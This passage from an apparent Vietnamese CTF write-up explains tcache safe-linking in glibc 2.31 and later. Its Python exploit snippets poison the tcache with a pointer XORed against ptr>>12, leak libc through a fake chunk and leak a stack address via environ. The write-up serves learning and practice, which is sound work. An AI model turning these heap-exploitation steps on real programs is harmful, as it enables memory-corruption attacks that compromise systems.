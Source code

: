 
- đến đây rồi ta cần học thêm 1 kiến thức mới đó là từ libc 2.31 trở nên sẽ có cơ chế xor nhằm bảo vệ tcache 
- xem thêm: https://hackmd.io/@trhoanglan04/SkrdeRm9n#tcache-protection-mechanism
- nôm na nó sẽ lấy addr chunk bỏ qua 12 bit , sau đó xor với addr next chunk => payload = (ptr >> 12) ^ need
- nên bây giờ ta cần gán thằng payload = (0x000055c2d8fc7300 >> 12) ^ 0x55c2d8fc7350, mục đích để đưa fake chunk 0x55c2d8fc7350 vào tcache 
- vì có null byte ở cuối sau khi strcpy nên ta cần gán 2 lần để xóa 2 byte đầu thành null byte 

```python  
#ptr >> 12 ^ addr
need = heap_base+0x350
ptr = heap_base+0x300
payload = (ptr >> 12) ^ need
edit_title(1,p64(payload)[0:6]+b'a')
edit_title(1,p64(payload)[0:6])
```

![image](https://github.com/gookoosss/CTF/assets/128712571/69e2f947-2f1e-4a05-935b-3ab24d0fd4d9)


- oke kết quả như ta mong đợi rồi ,h ta lấy thằng 0x55c2d8fc7350 và gán cho nó địa chỉ heap chứa libc thôi 

```python 
add(2,0x50,b'cccc',0x50,b'dddd')
payload = p64(heap_base+0xc60+0x10) # addr ubin(ab90) + 0x60 + 0x80
add(3,0x50,payload,0x70,b'a')
show(1)

p.recvuntil(b'Content: ')
libc_leak = u64(p.recv(6)+b'\0\0')
libc.address = libc_leak - 0x1f6ce0
info('libc leak: ' + hex(libc_leak))
info('libc base: ' + hex(libc.address))
```

### Leak stack 
- có được libc rồi ta dễ dàng leak stack nhờ environ trong libc 


![image](https://github.com/gookoosss/CTF/assets/128712571/4189f8a0-82f3-4761-a52c-73debf983653)


```python 
environ = libc.sym['environ']
edit_title(3,p64(environ)[0:6]) #350
show(1)
p.recvuntil(b'Content: ')
stack_leak = u64(p.recv(6)+b'\0\0')
info("stack leak: " + hex(stack_leak))
```

### Leak exe 
